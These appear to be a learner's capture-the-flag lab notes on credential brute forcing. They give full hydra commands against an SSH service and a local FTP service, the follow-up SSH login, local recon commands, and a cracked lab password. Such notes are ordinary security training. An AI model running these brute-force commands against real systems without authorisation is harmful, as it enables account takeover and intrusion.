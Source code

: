 hydra will suggest to add `-t 4` to the end for the max number of parallel attempts because SSH typically limits the number of parallel connections and drop other connections 

the final command looks like: 

`hydra -L bill.txt -P william.txt -u -f ssh://178.35.49.134:22 -t 4`

this can result in a username and password that we can ssh into with like so: 

`ssh b.gates@178.35.49.134 -p 22`

### FTP brute forcing 

once we are ssh'd in, we can see what other users are on the system:

`ls /home` 

we can also do local recon to see what other ports are open locally: 

`netstat -antp | grep -i list` 

if port 21 is open we can try brute forcing the FTP login with the other users we find locally 

for this example, let's assume that the admin account has hydra installed, so we can just run it on the logged in user: 

`hydra -l m.gates -P rockyou-10.txt ftp://127.0.0.1`

if we get a result we can try to FTP as that user or switch to another user: 

`ftp 127.0.0.1`

switch to the user: 

`su - m.gates`

### Brute force b.gates 

what is the flag found in the home dir of the user b.gates? 

first make sure we have our personalized password list: 

![](../Images/Pasted%20image%2020231228174726.png)

make the hydra ssh command using a static username of b.gates and our personalized password list: 

![](../Images/Pasted%20image%2020231228174806.png)

we have found the password **4dn1l3m!$** that we can use to ssh with 

use ssh to connect on the specified port and verify that I am logged in as b.gates: 

![](../Images/Pasted%20image%2020231228174934.png)

look around in the directories and find the flag in b.gates home directory: 

![](../Images/Pasted%20image%2020231228175016.png)

since the user has hydra and the shorter version of rockyou.txt, try to brute force the FTP login for the other user, m.gates
